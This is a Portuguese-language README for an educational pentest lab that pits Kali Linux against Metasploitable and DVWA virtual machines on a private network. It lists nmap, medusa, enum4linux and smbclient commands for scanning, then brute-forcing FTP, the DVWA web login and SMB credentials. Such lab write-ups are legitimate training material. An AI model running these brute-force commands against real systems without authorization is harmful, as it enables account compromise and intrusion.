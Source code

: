 # Laboratório de Pentest em VMs (Kali + Metasploitable/DVWA/SMB)

[![status](https://img.shields.io/badge/status-educacional-blue)](#aviso-ético-e-legal)
[![kali](https://img.shields.io/badge/Kali-rolling-557CFF?logo=kalilinux\&logoColor=white)](https://www.kali.org/)
[![virtualbox](https://img.shields.io/badge/VirtualBox-7.x-1f87ff?logo=virtualbox\&logoColor=white)](https://www.virtualbox.org/)
[![nmap](https://img.shields.io/badge/nmap-7.x-2ea44f)](https://nmap.org/)
[![medusa](https://img.shields.io/badge/medusa-bruteforce-orange)](#3-ftp-criação-de-wordlists--força-bruta)
[![enum4linux](https://img.shields.io/badge/enum4linux-SMB%20enum.-yellow)](#5-smb-enumeração-e-acesso)

> ## Aviso ético e legal
>
> Este projeto é **exclusivamente educacional**, feito em **ambiente controlado** (VMs locais) e com **autorização explícita**. **Nunca** use técnicas de varredura, força bruta ou exploração em sistemas de terceiros sem permissão. Você é o único responsável pelo uso seguro.

---

## Sumário

* [Objetivo](#objetivo)
* [Topologia do laboratório](#topologia-do-laboratório)
* [Requisitos](#requisitos)
* [Fluxo resumido](#fluxo-resumido)
* [Passo a passo (comandos)](#passo-a-passo-comandos)

  * [1) Descobrir IP e conectividade](#1-descobrir-ip-e-conectividade)
  * [2) Varredura de portas e versões](#2-varredura-de-portas-e-versões)
  * [3) FTP: criação de wordlists + força bruta](#3-ftp-criação-de-wordlists--força-bruta)
  * [4) Web (DVWA): parâmetros + força bruta HTTP](#4-web-dvwa-parâmetros--força-bruta-http)
  * [5) SMB: enumeração e acesso](#5-smb-enumeração-e-acesso)
* [Estrutura sugerida do repositório](#estrutura-sugerida-do-repositório)
* [Resultados (observados no lab)](#resultados-observados-no-lab)
* [Lições aprendidas](#lições-aprendidas)
* [Troubleshooting rápido](#troubleshooting-rápido)
* [Boas práticas](#boas-práticas)
* [Licença](#licença)

---

## Objetivo

Montar um mini-laboratório de segurança e praticar **reconhecimento** e **ataques de autenticação por força bruta** em serviços comuns (FTP, web/DVWA e SMB) usando **Kali Linux** como atacante e **Metasploitable** (com DVWA) como alvo.

## Topologia do laboratório

* **VM 1 (Attacker):** Kali Linux (ferramentas: `nmap`, `medusa`, `enum4linux`, etc.)
* **VM 2 (Target):** Metasploitable (imagem vulnerável do projeto Metasploit) e **DVWA**.
* **Rede:** Host-Only/Interna (ex.: `192.168.56.0/24`)

> IP do alvo usado nos exemplos: `192.168.56.102`.

## Requisitos

* Oracle **VirtualBox** 7.x
* **Kali Linux** (ISO/OVA)
* **Metasploitable** (ou equivalente vulnerável) + **DVWA** habilitado
* Rede **Host-Only**/interna entre as VMs

---

## Fluxo resumido

1. **Descobrir IP** e testar conectividade com o alvo.
2. **Varredura** de portas/serviços (`nmap -sV`).
3. **FTP:** criar **wordlists** e usar **Medusa**; validar no `ftp`.
4. **Web (DVWA):** inspecionar parâmetros do formulário e atacar via **Medusa** (HTTP).
5. **SMB:** **enumeração** com `enum4linux` → wordlists → **Medusa** (`-M smbnt`) → validar com `smbclient`.

---

## Passo a passo (comandos)

### 1) Descobrir IP e conectividade

```bash
ip a
ping -c 3 192.168.56.102
```

### 2) Varredura de portas e versões

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.102
# -sV: detecta versão dos serviços
# -p : portas de interesse (FTP=21, SSH=22, HTTP=80, SMB=139/445)
```

### 3) FTP: criação de wordlists + força bruta

Crie listas simples de **usuários** e **senhas**:

```bash
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```

Ataque com **Medusa** (FTP):

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
# -h: host alvo | -U/-P: wordlists | -M: módulo | -t: threads por host
```

Valide credenciais que retornarem `[SUCCESS]`:

```bash
ftp 192.168.56.102
# informe o user/senha encontrados; o login deve ter sucesso
```

### 4) Web (DVWA): parâmetros + força bruta HTTP

Acesse no navegador:

```
http://192.168.56.102/dvwa/login.php
```

Inspecione o formulário (DevTools) para mapear **parâmetros** e **mensagens de erro**.

Ataque com **Medusa** (HTTP) — **atenção às aspas**:

```bash
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
  -m "PAGE:/dvwa/login.php" \
  -m "FORM:username=^USER^&password=^PASS^&login=login" \
  -m "FAIL:Login failed" \
  -t 6
```

> Dica DVWA: se houver **token CSRF** atrapalhando, entre em *DVWA Security* e ajuste para **Low** (ambiente didático).

### 5) SMB: enumeração e acesso

Enumere amplamente e salve a saída:

```bash
enum4linux -a 192.168.56.102 | tee reports/enum4_output.txt
```

Monte **wordlists** a partir dos usuários encontrados:

```bash
echo -e "user\nmsfadmin\nservice" > wordlists/smb_users.txt
echo -e "password\n123456\nWelcome123\nmsfadmin" > wordlists/senhas_spray.txt
```

Ataque SMB com **Medusa**:

```bash
medusa -h 192.168.56.102 -U wordlists/smb_users.txt -P wordlists/senhas_spray.txt \
  -M smbnt -t 2 -T 50
# -t: threads por host | -T: hosts em paralelo
```

Valide privilégios e compartihamentos:

```bash
smbclient -L //192.168.56.102 -U msfadmin
```

---

## Estrutura sugerida do repositório

```
.
├── README.md
├── wordlists/
│   ├── users.txt
│   ├── pass.txt
│   ├── smb_users.txt
│   └── senhas_spray.txt
└── reports/
    └── enum4_output.txt
```

---

## Resultados (observados no lab)

* **FTP:** credenciais descobertas via `medusa` → login ok no `ftp`.
* **DVWA:** sucesso na força bruta HTTP após mapear parâmetros e string de falha.
* **SMB:** `enum4linux` → wordlists → `medusa` → **ACCOUNT FOUND** (acesso com privilégio); listagem de shares com `smbclient`.

> Observação: a eficácia depende de configurações **deliberadamente vulneráveis** do alvo (Metasploitable/DVWA).

---

## Lições aprendidas

* **Reconhecimento** (serviços/versões) direciona o ataque e economiza tempo.
* Em **aplicações web**, entender **parâmetros** e **respostas** é chave para automatizar tentativas.
* **Enumeração SMB** (usuários/shares/policies) antes de tentar senhas aumenta a taxa de sucesso.
* Ajustar **paralelismo** (`-t`, `-T`) no `medusa` impacta desempenho e estabilidade.
* **Wordlists contextuais** (derivadas da enumeração) superam listas genéricas.

---

## Troubleshooting rápido

* **Sem resposta ao ping:** verifique rede Host-Only/Firewall do host.
* **`nmap` sem serviços:** confirme IP do alvo e se a VM target está ligada.
* **DVWA falhando com `medusa`:** verifique **endpoint** e **parâmetros**; ajuste *Security Level* para **Low** se houver token CSRF; confira a string de **FAIL**.
* **`medusa -M smbnt` muito lento:** reduza `-T`, mantenha `-t` baixo; valide conectividade SMB (139/445).
* **`smbclient` não lista shares:** credenciais insuficientes ou SMB bloqueado; tente outro usuário encontrado na enumeração.

---

## Boas práticas

* Mantenha o lab **isolado** (sem Internet para a VM vulnerável).
* **Documente** cada etapa (logs, saída de comandos).
* **Limite** as threads para não travar o alvo.
* **Atualize** o Kali, mas preserve a imagem vulnerável para fins didáticos.

---

## Licença

Este material é disponibilizado para fins **educacionais**. 
